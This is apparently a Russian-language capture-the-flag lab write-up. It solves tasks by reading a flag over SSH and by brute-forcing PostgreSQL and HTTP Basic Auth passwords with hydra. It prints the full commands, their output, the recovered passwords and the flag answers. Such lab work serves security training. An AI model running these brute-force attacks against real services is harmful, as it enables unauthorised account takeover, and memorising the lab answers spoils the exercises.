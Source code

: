 Далее логинимся и получаем флаг

```bash
root@attackerLogin:~# ssh userdefbox@10.184.48.4
$ ls
flag.txt
$ cat flag.txt
Imem8ErhYdr4
```

Вернее

```bash
$ cat /flag.txt
defbox{qnoz7gxjug}
```

# Брутфорс PostgreSQL

Введите пароль от базы данных в качестве флага ниже.

### Задача
Выполните brute-force атаку на экземпляр PostgreSQL, работающий здесь 10.184.48.3.
Используйте список паролей /root/passwords.txt для подбора пароля к сервису PostgreSQL.

Данные для входа:

Пользователь: postgres
Цель: 10.184.48.3

### Solve

```bash
root@attackerLogin:~# hydra -l postgres -P /root/passwords.txt 10.184.48.3 postgres -t 16 -f -vV -I
[STATUS] attack finished for 10.184.48.3 (waiting for children to complete tests)
[5432][postgres] host: 10.184.48.3   login: postgres   password: MOOS1cooraib6dull
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-08-14 13:23:36
```

# Брутфорс Basic Auth

### Задача
Используйте предустановленный инструмент hydra и базу паролей, находящуюся в файле /root/passwords.txt, чтобы выполнить brute-force атаку на Basic auth сервера http://159.65.195.19.

Пользователь - defbox
Адрес сервера - http://159.65.195.19

### Solve

```bash
root@attackerLogin:~# hydra -l defbox -P /root/passwords.txt 159.65.195.19 http-get /
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-08-14 13:26:12
[DATA] max 16 tasks per 1 server, overall 16 tasks, 94 login tries (l:1/p:94), ~6 tries per task
[DATA] attacking http-get://159.65.195.19:80/
[80][http-get] host: 159.65.195.19   login: defbox   password: jennifer
1 of 1 target successfully completed, 1 valid password found
```
